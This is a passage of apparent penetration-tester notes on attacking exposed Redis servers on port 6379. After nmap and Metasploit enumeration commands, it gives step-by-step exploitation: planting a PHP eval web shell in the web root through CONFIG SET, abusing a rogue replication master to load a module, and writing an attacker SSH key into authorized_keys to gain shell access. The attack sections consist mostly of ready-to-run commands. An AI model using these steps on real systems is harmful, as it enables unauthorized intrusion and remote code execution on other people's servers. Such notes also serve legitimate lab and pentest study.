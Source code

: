 ```yaml
---
id: services
aliases: []
tags: []
---
```

# Services 
[[#Redis /6379]]
  
  
## Redis /6379
> Redis is an open source, in-memory data structure store, used as a database, cache and message broker.

### Enumeration:    
```bash
   nmap --script redis-info -sV -p 6379 <IP>
   msf> use auxiliary/scanner/redis/redis_server
i ```
### Commands:
> [Cheat-Sheet](https://lzone.de/#/LZone%20Cheat%20Sheets/DevOps%20Services/Redis)

### Exploitation
> #### Authentication:
> Brute force 
1. **Easy**:
> [!IMPORTANT] Must have rights to access the dir / Must know the web root dir
```redis 
CONFIG SET
1. Change database file location
CONFIG SET dir /var/www/uploads/
2. Change database file name
CONFIG SET dbfilename sh.php
3. Inject your shell payload into database
SET PAYLOAD '<?php eval($_GET[0]);?>'
4. Save database to file
BGSAVE
```
2. **[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)** 
> Sets a redis server which operates as a master and sends commands and writes to files to target with partial or total resynchronization 
```redis
rogue server
1. PING - test if a connection is still alive
+PONG
2. REPLCONF - exchange replication information between
master and slave
+OK
3. PSYNC/SYNC <replid> - synchronize slave state with
the master (partial or full)
+CONTINUE <replid> 0
[Source](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
```
>> [!IMPORTANT] Compile the .so on your machine

3. **ssh** :
> Generate a ssh public-private key pair on your pc: 
`ssh-keygen -t rsa`

> Write the public key to a file : 
`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`

> Import the file into redis : 
`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`

> Save the public key to the authorized_keys file on redis server:

`root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK`

> Finally, you can ssh to the redis server with private key : 
`ssh -i id_rsa redis@10.85.0.52 `

### ** Tags:
| OS | Vuln versions | Techniques |
|  | --------------- | --------------- |
| Windows, Linux | 4 - 5  | SSRF, SSH, Reverse-shell, Web-shell  |
 

   

